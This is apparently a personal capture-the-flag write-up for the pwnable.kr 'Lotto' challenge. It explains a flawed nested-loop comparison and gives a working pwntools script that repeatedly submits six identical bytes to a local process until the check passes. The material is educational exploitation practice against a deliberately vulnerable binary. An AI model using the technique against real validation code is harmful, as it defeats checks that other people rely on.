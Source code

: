 ```yaml
---
title: Pwnable.kr Lotto
date: 2022-08-20T18:29:36+02:00
tags: ['cs/security']
aliases: ['']
---
```


Here, we have lotto program, however, while checking if our input is a match, it
uses the following piece of code:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

Basically, it intends to check whether the numbers are a match regardless of the
order. But here, if we provide an array of all ones, then if there is a one in
the random array, then we get a pass.

```py
from pwn import *

p = process("./lotto")
while True:
    p.recvuntil("-")
    p.clean()
    p.sendline("1")
    p.recvuntil("bytes :")
    p.sendline("\x01\x01\x01\x01\x01\x01")
    p.recvuntil("Start!\n")
    s = p.recvline()

    if s != b'bad luck...\n':
        print(s)
        break

p.close()
```
